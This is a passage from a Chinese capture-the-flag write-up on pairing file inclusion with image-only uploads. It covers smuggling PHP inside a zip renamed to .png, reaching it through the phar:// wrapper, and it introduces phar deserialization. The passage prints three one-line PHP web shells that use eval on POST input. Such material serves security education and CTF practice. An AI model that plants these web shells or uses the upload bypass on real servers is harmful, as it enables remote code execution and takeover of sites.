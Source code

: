 

## 文件包含和文件上传的配合的情况

一般这类题目有共同的利用条件：

利用条件：无法直接上传 shell，只能上传图片，存在文件包含

### <a name="phar%20%E4%B8%A4%E7%A7%8D%E7%94%A8%E6%B3%95"></a>phar 两种用法

phar 是 php 中的一种归档压缩文件，类似 zip 。可以使用 phar:// 协议来访问压缩后的文件

> PHP5.3之后支持了类似Java的jar包，名为phar。用来将多个PHP文件打包为一个文件。

后面的两种用法都用一个 SUCTF 招新赛的例子来说明：

点开题目发现只有一个上传点，且只能上传 png、jpg、gif 文件，无法绕过后缀上传 shell

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://i.imgur.com/4H1OygT.png)

#### <a name="%E6%AD%A3%E5%B8%B8%E7%94%A8%E6%B3%95"></a>正常用法

第一种方法就是他的常规用法了，将 php 文件压缩成 zip 文件，zip 文件改后缀为 png 之后

例如将下面的代码放在 1.php 中，压缩成 1.zip 并改名 1.png后上传

```
&lt;?=eval($_POST['1']);?&gt;

&lt;?php eval($_POST['1']);?&gt;

&lt;script language='php'&gt;
    eval($_POST['1']);
&lt;/script&gt;
```

上传文件之后在右键 -&gt; 源代码中可以看到上传的地址，复制出来并用 phar:// 协议进行访问

[![](https://i.imgur.com/dvPgaxc.png)](https://i.imgur.com/dvPgaxc.png)

```
Set-Cookie: hint=cGxlYXNlIHJlYWQgcmVjZW50IHBhcGVycyBhYm91dCBwaGFy

--&gt; please read recent papers about phar
```

于是这里想到了phar 的反序列化漏洞，貌似这个操作在 hitcon2017 的 Baby^H-master-php-2017 中就出现了，但是那个实在太难了…

#### <a name="phar%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E"></a>phar 反序列化漏洞

具体的原理这里也不说了，大概的用法可以看下面的这两篇文章：

[https://blog.csdn.net/xiaorouji/article/details/83118619](https://blog.csdn.net/xiaorouji/article/details/83118619)
